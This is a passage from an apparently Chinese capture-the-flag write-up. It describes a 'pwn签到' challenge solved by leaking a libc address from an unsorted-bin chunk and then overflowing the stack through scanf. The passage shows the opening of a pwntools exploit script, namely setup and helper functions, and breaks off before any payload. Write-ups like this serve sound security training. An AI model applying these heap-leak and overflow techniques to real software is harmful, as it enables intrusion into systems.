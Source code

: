 执行成功，获取 `flag` ：

[![](assets/1711465659-baf198f9c1fdfbad2b6941b175ec44ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240326185035-accfc088-eb5e-1.png)

# Pwn

## pwn签到

利用add函数从unsortbin当初切割一个chunk，且保留了libc地址，将其泄露获取libc。 通过输入flag进入有漏洞的scanf函数进行栈溢出。

```plain
#coding=utf-8

from pwn import *

context.log_level = "debug"
# context.arch = "i386"
context.arch = "amd64"

menu=""
sh = 0
lib = 0
elf =ELF('pwn-sign_in')
libc=ELF("./libc-2.31.so")

""" """
l64 = lambda      :u64(sh.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
l32 = lambda      :u32(sh.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
leak  = lambda name,data : sh.success(name + ": 0x%x" % data)
s  = lambda payload: sh.send(payload)
sa  = lambda a,b  :sh.sendafter(str(a),str(b))
sl  = lambda payload: sh.sendline(payload)
sla = lambda a,b  :sh.sendlineafter(str(a),str(b))
ru  = lambda a     :sh.recvuntil(str(a))
r  = lambda a     :sh.recv(str(a))
""" """

def b(addr):
    bk="b *$rebase("+str(addr)+")"
    # bk="b *"+str(addr)
    attach(sh,bk)
    success("attach")
```
